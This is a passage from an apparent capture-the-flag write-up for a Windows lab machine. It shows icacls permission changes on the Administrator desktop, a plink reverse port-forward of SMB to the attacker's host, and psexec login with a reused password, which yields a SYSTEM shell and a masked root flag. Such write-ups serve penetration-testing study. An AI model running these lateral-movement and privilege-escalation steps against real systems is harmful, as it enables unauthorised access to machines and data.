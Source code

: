 This means we could add `Read` Access to all files on the Desktop, including `root.txt` and be able to read the flag!

```
icacls C:\Users\Administrator\Desktop /grant "Alfred":F /t 
processed file: .
processed file: .\desktop.ini
processed file: .\root.txt
Successfully processed 3 files; Failed processing 0 files
```

## Password Reuse

After uploading a `plink.exe`, we can perform port forwarding and be able to reach the port `445` which is only available via `localhost`.

```
C:\temp\plink.exe -l root -pw root 10.10.XX.XX -R 445:127.0.0.1:445 -P 2222
```

Then from our machine, we can use `psexec` and specify the `Administrator` username along with the password of `Alfred`.

```bash
$ psexec.py "Administrator:Welcome1\!@127.0.0.1" 
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file AYnhrfTP.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service OMxU on 127.0.0.1.....
[*] Starting service OMxU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We got a shell as `SYSTEM`!

# root.txt

The root flag is in `Administrator`'s Desktop.

```
type root.txt
56e9XXXXXXXXXXXXXXXXXXXXXXXXXXXX
C:\Users\Administrator\Desktop>
``` 

### Rooted ! Thank you for reading and look forward for more writeups and articles !